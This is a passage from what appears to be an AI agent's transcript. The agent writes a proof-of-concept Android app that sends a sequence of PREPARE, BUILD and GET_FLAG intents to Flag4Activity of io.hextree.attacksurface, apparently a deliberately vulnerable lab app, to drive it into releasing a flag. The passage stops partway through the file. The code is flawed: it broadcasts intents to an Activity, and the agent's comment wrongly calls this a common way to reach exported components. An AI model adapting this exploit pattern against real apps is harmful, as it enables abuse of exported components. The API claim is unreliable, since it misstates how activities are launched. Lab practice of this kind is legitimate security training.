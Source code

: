 Plan & Sandbox Check: I will write the content of `Android-2/MaliciousFlag4PoC.java` to a new file named `MaliciousFlag4PoC.java` in the current directory (or `/tmp` if the current directory is not writable) and the content of `Android-2/AndroidManifest_PoC.xml` to `AndroidManifest_PoC.xml`. This is necessary to have the PoC files in the expected location for potential compilation or packaging steps, although I cannot compile or run them in this environment. Writing files is generally safe, and I will attempt to write to the project root first.

--- Tool Call ---
write_to_file({'content': 'package com.example.maliciousapp;\n'
            '\n'
            'import android.app.Activity;\n'
            'import android.content.ComponentName;\n'
            'import android.content.Intent;\n'
            'import android.os.Bundle;\n'
            'import android.util.Log;\n'
            'import android.widget.Toast;\n'
            '\n'
            'public class MaliciousFlag4PoC extends Activity {\n'
            '\n'
            '    private static final String TARGET_PACKAGE = '
            '"io.hextree.attacksurface";\n'
            '    private static final String TARGET_ACTIVITY = '
            '"io.hextree.attacksurface.activities.Flag4Activity";\n'
            '\n'
            '    private static final String PREPARE_ACTION = '
            '"PREPARE_ACTION";\n'
            '    private static final String BUILD_ACTION = "BUILD_ACTION";\n'
            '    private static final String GET_FLAG_ACTION = '
            '"GET_FLAG_ACTION";\n'
            '\n'
            '    @Override\n'
            '    protected void onCreate(Bundle savedInstanceState) {\n'
            '        super.onCreate(savedInstanceState);\n'
            '        Log.d("MaliciousFlag4PoC", "MaliciousFlag4PoC '
            'started.");\n'
            '\n'
            '        // Step 1: Send PREPARE_ACTION\n'
            '        Intent prepareIntent = new Intent(PREPARE_ACTION);\n'
            '        prepareIntent.setComponent(new '
            'ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n'
            '        sendBroadcast(prepareIntent); // Using sendBroadcast as '
            "it's a common way to send intents to exported components\n"
            '        Log.d("MaliciousFlag4PoC", "Sent PREPARE_ACTION");\n'
            '\n'
            '        // Step 2: Send BUILD_ACTION\n'
            '        Intent buildIntent = new Intent(BUILD_ACTION);\n'
            '        buildIntent.setComponent(new '
            'ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n'
            '        sendBroadcast(buildIntent);\n'
            '        Log.d("MaliciousFlag4PoC", "Sent BUILD_ACTION");\n'
            '\n'
            '        // Step 3: Send GET_FLAG_ACTION\n'
            '        Intent getFlagIntent = new Intent(GET_FLAG_ACTION);\n'
            '        getFlagIntent.setComponent(new '
            'ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n'
            '        sendBroadcast(getFlagIntent);\n'
            '        Log.d("MaliciousFlag4PoC", "Sent GET_FLAG_ACTION");\n'
            '\n'
            '        // Step 4: Send a final intent to trigger success(this) '
            'from GET_FLAG state\n'
            "        // Any intent will work here, let's re-send "
            'GET_FLAG_ACTION or an empty intent\n'
            '        Intent triggerSuccessIntent = new '
            'Intent(GET_FLAG_ACTION); // Or new Intent();\n'